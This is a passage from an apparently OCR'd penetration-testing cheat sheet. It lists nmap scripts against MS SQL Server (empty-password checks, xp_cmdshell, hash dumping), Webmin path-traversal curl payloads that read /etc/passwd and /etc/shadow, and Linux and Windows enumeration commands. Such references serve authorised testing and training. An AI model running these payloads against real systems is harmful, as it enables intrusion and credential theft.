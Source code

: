     -   SNMP Default Credentials
        /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt


-   MS SQL Server Enumeration

    -   Nmap Information Gathering

        `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`

-   Webmin and miniserv/0.01 Enumeration - Port 10000

      Test for LFI & file disclosure vulnerability by grabbing /etc/passwd

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`

      Test to see if webmin is running as root by grabbing /etc/shadow

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`

-   Linux OS Enumeration

    -   List all SUID files
        `find / -perm -4000 2>/dev/null`

    -   Determine the current version of Linux
        `cat /etc/issue`

    -   Determine more information about the environment
        `uname -a`

    -   List processes running
        `ps -xaf`

    -   List the allowed (and forbidden) commands for the invoking use
        `sudo -l`

    -   List iptables rules
        `iptables --table nat --list
        iptables -vL -t filter
        iptables -vL -t nat
        iptables -vL -t mangle
        iptables -vL -t raw
        iptables -vL -t security`

-   Windows OS Enumeration


    -   net config Workstation

    -   systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

    -   hostname

    -   net users
